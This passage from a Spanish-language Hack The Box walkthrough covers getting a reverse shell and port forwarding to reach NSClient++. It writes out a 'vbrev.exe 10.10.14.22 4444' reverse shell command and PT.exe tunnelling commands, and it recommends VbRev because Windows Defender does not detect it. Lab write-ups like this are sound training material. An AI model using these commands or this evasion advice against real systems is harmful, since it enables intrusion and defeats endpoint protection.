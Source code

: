 	Para este momento, se intentó este procedimiento una cantidad de 5 veces, y por desgracia, ninguna funcionó. La página se quedaba colgada, no terminaba de cargar el script, e incluso, el netcat era borrado de la máquina víctima. En un punto se logró ejecutar el script, pero este no finalizó de manera exitosa ya que la máquina detectó el **netcat** como malicioso y lo borraba cada vez que lo volvíamos a subir.

+ Llegado a este punto pensé en rendirme, sin embargo, luego de investigar sobre el tema me encontré con que es posible llevar a cabo este ataque desde una máquina Windows con ayuda del software **VbRev**. Este es una especie de netcat que el Defender no detecta como malicioso, y lo mejor de todo es que cuenta con una interfaz gráfica que nos permite ejecutar comandos, listar archivos, subir archivos, descargarlos, listar procesos, entre muchas utilidades más. No perdía nada con intentarlo, y a cambio, aprendería a realizar pentesting desde una máquina Windows.

	La interfaz es bastante sencilla, primero requiere de un puerto en el que se pondrá a la escucha por conexiones entrantes (sí, igual que netcat), damos clic en **Start Listener**
	
	![35]
	
	![36]
	
	Como realizaremos el procedimiento desde Windows, ya conectados a la VPN de **Hack the Box**, abrimos el cmd para conectarnos por **SSH**. Dentro del sistema, debemos copiar dos archivos que necesita VbRev para entablar la reverse shell:
	
	```
		vbrev.exe
		vbrev.shared.dll
	```
	
	Ya con estos archivos en el sistema víctima, podemos ejecutarlo para entablar la reverse shell:
	
	``vbrev.exe 10.10.14.22 4444``
	
	![37]
	
	Del lado del VbRev veremos que recibimos la conexión.
	
	![38]
	
	Para hacer el **port forwarding**, podemos hacer uso de **SSH**, sin embargo, el mismo VbRev tiene un ejecutable llamado **PT.exe** que nos realiza esta tarea; es una especie de **chisel**. Para ejecutarla, en nuestra máquina donde recibiremos el puerto ejecutamos lo siguiente:
	
	``PT.exe -p 8443``
	
	![39]
	
	Del lado de la máquina víctima (en el VbRev) ejecutamos en el apartado de **Command Prompt** lo siguiente:
	
	``PT.exe -s 10.10.14.22 -p 8443``
	
	Con esto, ya tendremos el port forwarding necesario para acceder el NSClient++. Accedemos desde **Chrome** esta vez (no pude probarlo con FirefoX, así que no descarto la idea de que quizá los errores previos se dieran por no usar el navegador adecuado).
	